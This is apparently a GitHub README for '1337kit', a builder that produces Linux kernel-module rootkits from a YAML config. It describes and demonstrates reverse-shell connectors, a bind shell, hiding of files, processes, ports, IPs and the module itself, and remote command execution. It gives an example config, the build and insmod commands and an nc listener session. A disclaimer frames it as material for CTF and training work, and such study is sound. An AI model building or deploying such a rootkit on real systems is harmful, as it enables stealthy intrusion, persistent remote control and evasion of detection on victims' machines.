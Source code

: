 # 1337kit - LKM Rootkit Builder

```
 ████   ████████   ████████  ██████████ █████       ███   █████   
░░███  ███░░░░███ ███░░░░███░███░░░░███░░███       ░░░   ░░███    
 ░███ ░░░    ░███░░░    ░███░░░    ███  ░███ █████ ████  ███████  
 ░███    ██████░    ██████░       ███   ░███░░███ ░░███ ░░░███░   
 ░███   ░░░░░░███  ░░░░░░███     ███    ░██████░   ░███   ░███    
 ░███  ███   ░███ ███   ░███    ███     ░███░░███  ░███   ░███ ███
 █████░░████████ ░░████████    ███      ████ █████ █████  ░░█████ 
░░░░░  ░░░░░░░░   ░░░░░░░░    ░░░      ░░░░ ░░░░░ ░░░░░    ░░░░░  
LKM Rootkit Builder
```

## About project

1337kit is 64-bit LKM Rootkit builder based on yaml prescription

Fully tested on: Linux 5.11.0-34-generic 20.04.1-Ubuntu SMP x86_64 x86_64 x86_64 GNU/Linux

### DISCLAIMER: FOR EDUCATIONAL AND INFORMATIONAL PURPOSES ONLY

This project is for malware analytists and for creator of CTF or cyber security exercises, with this builder you can build your custom rootkit for your exercise

**I do not take any responsibility for usage of this project**

### Features

* RevShell based connector
* Hiding dents (files, files prefixes, process id)
* Hiding connections based on Ports in TCP Connection
* Hiding connections based on IPv4 in TCP Connection
* Spawning scripts to user-space
* Hiding module from module list

## Usage

You have to create your yaml prescription for custom rootkit,
Example of full prescription (every option can be omitted):

```yaml
hideme: true
connector: 
    ip: "127.0.0.1"
    port: "8080"
hide_dent: # Here you can put all your files, directories and process id you want to hide from user
    - "91746"
    - "1337test_"
hide_port:
    - "8080"
    - "1337"
hide_ip:
    - "127.0.0.1"
    - "8.8.8.8"    
shells:
    - "sleep 1000"
```

After you create your yaml just run the builder.py

```sh
$ python3 builder.py --config testfiles/config.yml
```
And rootkit.ko will be created.

another way to execute your hiding or shell script is connector, if you enable your connector, rev-sell connection is created to your defined IP and Port, after this it will try open connection every x second. After connection is opened multiple commands can be send:

* HIDEME
* SHOWME
* HIDE_DENT
* SHOW_HIDDEN_DENT
* HIDE_PORT
* SHOW_HIDDEN_PORT
* HIDE_IP
* SHOW_HIDDEN_IP
* BINDSHELL_CREATE
* RUN_CUSTOM_BASH

## Future Features

* TCP IPv6 hiding
* UDP hiding
* builder name obfuscation (cuz now when you do strings you will see symbols like init_rootkit ect)

### Examples

```sh
$ python3 builder.py --config testfiles/config.yml
$ sudo insmod rootkit.ko
$ nc -lvnp 8080
 Listening on 0.0.0.0 8080
 Connection received on 127.0.0.1 39040
 RUN_CUSTOM_BASH sleep 1000
```

![example](images/example.jpeg)
